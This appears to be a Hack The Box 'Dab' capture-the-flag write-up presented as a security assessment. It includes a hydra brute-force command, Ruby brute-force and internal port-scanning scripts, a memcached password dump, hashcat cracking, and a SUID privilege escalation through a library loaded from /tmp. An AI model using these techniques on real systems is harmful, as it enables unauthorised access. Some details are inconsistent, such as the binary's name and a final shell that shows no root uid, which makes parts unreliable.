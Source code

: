 ```yaml
---
title: Hack The Box DAB Writeup Security Assessment
description: Hack the box 'DAB' writeup
date: 2019-02-03
tags: [Hack the Box, DAB]
---
```


## Introduction to the target.

Here we present a writeup of the "Dab" server and the applications it hosts. As we walk through each issue identified, we'll recommend a suitable mitigation against exploitation. A quick review of open services gives us a few targets.

### FTP
The ftp service accepts anonymous logons appears to have the single purpose of serving the organisation logo.

![Dab Logo](/media/images/dab.jpg)

### Recommendation
Although no significant issue is currently found here, in order to reduce attack surface, this service should be considered for removal.

### Web 

The web application service initially confronts a viewer with a username/password prompt. By testing several passwords, it can be identified that there is no account lockout or rate limiting in place, leading to an obvious potential for brute forcing. The following hydra script has been designed for the site in question:

```

hydra -l admin -P /usr/share/wordlists/rockyou.txt <address> http-post-form "/login:password=^PASS^&username=^USER^:failed"
```

It takes just a few minutes to identify a valid logon, and it should be stressed that the identified credentials meet strict password complexity policies. That is, it contained upper case, lower case, and numeric characters. Accordingly, such policies are not the solution to this type of problem.

### Developers console

The second service to review is the developer's console, on port 8080. This service utilises a more complex authentication system. The below custom code was built from reviewing browser interactions with the site, and will similarly brute force a valid credentials.

```ruby
#!/usr/bin/env ruby
#
require 'httpclient'
require 'httpclient/webagent-cookie'

URL = URI.parse "http://SERVICE:8080/"

def win(password)
  puts "Won with #{password}"
  exit
end

File.open '/usr/share/wordlists/rockyou.txt' do |f|
  f.each_line do |password|
    cookie = WebAgent::Cookie.new
    cookie.name = "password"
    cookie.value = password.chomp
    cookie.url = URL

    client = HTTPClient.new
    client.cookie_manager.add cookie
    response = client.get URL

    puts "Failed password '#{password.chomp}'"
    win(password) unless response.body.match(/Access denied/)
  end
end
```

### Recommendations
Rather than review credentials systems, the developer console could consider alternate authentication mechanisms. These could include requiring VPN access, or IP based whitelisting in addition to the existing solution.

## Utilising the developer console
The developer console can be utilised to connect to an arbitrary local port. The following script has been developed to enumerate all local services by abusing this functionality of the developer's console. This identifies access to several ports not accessible from the outside world.

```ruby
#!/usr/bin/env ruby
#
require 'httpclient'
require 'httpclient/webagent-cookie'

URL = URI.parse "http://SERVER:8080/"

def win(port)
  puts "Won with #{port}"
end

cookie = WebAgent::Cookie.new
cookie.name = "password"
cookie.value = VALUE
cookie.url = URL

1.upto TOP do |port|

  client = HTTPClient.new
  client.cookie_manager.add cookie
  response = client.get URI.parse "http://SERVER:8080/socket?port=#{port}&cmd=test"

  puts "Failed port '#{port}'"
  win(port) unless response.body.match(/500 Internal/)
end

```

The capability is not seen as a vulnerability in the developer's console, but rather as an indication the console itself requires better access control.

## Extracting a password list

The developer's console identifies a memcached service running, and accepting raw string data from that console. The following URL can be utilised to dump available cache information:

http://SERVER:8080/socket?port=11211&cmd=stats+items

[Further information regarding the memcache protocol can be reviewed here.](https://wincent.com/wiki/Testing_memcached_with_telnet)

With this background, the below script can be utilised to dump cached passwords. It is required to manually attempt to logon to the console shortly before running this script.

```ruby
#!/usr/bin/env ruby
#
require 'json'
list = File.read "userlist.json"

listj = JSON.parse(list)

listj.each_pair do |user, password|
  puts "#{user}:#{password}"
end
```

This should dump 495 username/hashed password combinations.

    hashcat64 --show dab.txt rockyou -m 0 --username

Allows for a relatively quick brute force attack on the dumped data, supplying 12 valid user credentials. Once of these is a valid SSH user.

## Privilege Escalation
Enough enumerating various paths will lead you to a SUID root binary named 'myexc'. Running it looks like this:

```
myexec
Enter password:
```

Attempting to copy the binary offsite to debug will inform you a library is required, which we can easily find:

```
$ find /usr -name libseclogin*
/usr/lib/libseclogin.so
/usr/src/libseclogin
genevieve@dab:~$ ls /usr/src/libseclogin/
seclogin.h
genevieve@dab:~$ cat /usr/src/libseclogin/seclogin.h
#include<stdio.h>
extern unsigned int seclogin();
```

ltrace happily tells us the password required to proceed.

```
 ltrace myexec
__libc_start_main(0x400836, 1, 0x7fff4a651bc8, 0x4008f0 <unfinished ...>
printf("Enter password: ")                      = 16
__isoc99_scanf(0x400985, 0x7fff4a651a90, 0x7f491a4c5780, 16Enter password: atest
) = 1
strcmp("s3cur3l0g1n", "atest")                  = 18
puts("Invalid password\n"Invalid password

)                      = 18
+++ exited (status 1) +++

```

Let's use that and see what the binary has in store for us. Note, saw above what seclogin() looks like and how exactly it responds.

```

genevieve@dab:~$ myexec
Enter password: s3cur3l0g1n
Password is correct

seclogin() called
TODO: Placeholder for now, function not implemented yet

```

The attacker really should be blocked at this point. Utilising an external library isn't a vulnerability on a SUID binary, since the usual LD\_PRELOAD tricks are ignored by the OS. In fact, the only place a preloaded library is accepted from is the locations defined under /etc/ld/so.conf.d. What do we see here however?

```
 cat /etc/ld.so.conf.d/test.conf
/tmp
```

At this point, we have a valid preload path, and a function we know how to call. Let's build and run a shell:

```
mine.c: In function ‘seclogin’:
mine.c:9:1: warning: control reaches end of non-void function [-Wreturn-type]
 }
 ^
genevieve@dab:~$ myexec
Enter password: s3cur3l0g1n
Password is correct

$ whoami
genevieve
$ id
uid=1000(genevieve) gid=0(root) groups=0(root),1000(genevieve)
```
And with root access, the attacker has full control of the machine. Our recommendation in response is to move development projects off the production servers.

